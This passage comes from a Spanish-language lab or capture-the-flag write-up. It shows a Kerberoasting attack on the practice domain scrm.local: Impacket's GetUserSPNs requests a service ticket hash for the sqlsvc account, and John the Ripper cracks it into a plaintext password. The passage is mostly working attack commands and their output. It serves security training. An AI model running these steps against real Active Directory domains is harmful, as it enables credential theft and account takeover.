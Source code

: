 
<h2 id="kerberoasting">Aplicando Ataque Kerberoasting (Fallo en la Autenticación)</h2>

Como ya tenemos un usuario y contraseña válido, podemos aplicar el **ataque Kerberoasting**. Este mismo ataque, ya lo hemos aplicado en la **máquina Active** para escalar privilegios.

Utilicemos la herramienta **GetUserSPNs.py de Impacket** para realizar el ataque.

Debemos indicar el dominio junto al usuario y contraseña, el servidor del dominio e indicar que es por **Kerberos**:
```bash
impacket-GetUserSPNs scrm.local/ksimpson:ksimpson -dc-host dc1.scrm.local -k
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[-] CCache file is not found. Skipping...
ServicePrincipalName          Name    MemberOf  PasswordLastSet             LastLogon                   Delegation 
----------------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/dc1.scrm.local:1433  sqlsvc            2021-11-03 10:32:02.351452  2024-10-01 12:28:10.946619             
MSSQLSvc/dc1.scrm.local       sqlsvc            2021-11-03 10:32:02.351452  2024-10-01 12:28:10.946619
```

Hemos generado el ticket, ahora debemos obtener el hash del ticket generado, para esto debemos indicárselo con el parámetro `-request`:
```bash
impacket-GetUserSPNs scrm.local/ksimpson:ksimpson -dc-host dc1.scrm.local -k -request
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[-] CCache file is not found. Skipping...
ServicePrincipalName          Name    MemberOf  PasswordLastSet             LastLogon                   Delegation 
----------------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/dc1.scrm.local:1433  sqlsvc            2021-11-03 10:32:02.351452  2024-10-01 12:28:10.946619             
MSSQLSvc/dc1.scrm.local       sqlsvc            2021-11-03 10:32:02.351452  2024-10-01 12:28:10.946619             

[-] CCache file is not found. Skipping...
$krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*...
...
...
```
Obtuvimos el hash e información extra como el **Service Principal Name (SPN)**, guardalo porque nos servira más adelante.

Muy bien, copia y pega el hash en un archivo para que podamos crackearlo con **JohnTheRipper**:
```bash
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Pegasus60        (?)     
1g 0:00:00:04 DONE (2024-10-01 16:33) 0.2237g/s 2400Kp/s 2400Kc/s 2400KC/s Penrose..Pearce
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Tenemos la contraseña del **usuario sqlsvc** en texto claro y es claro que es para el **servicio MSSQL**.
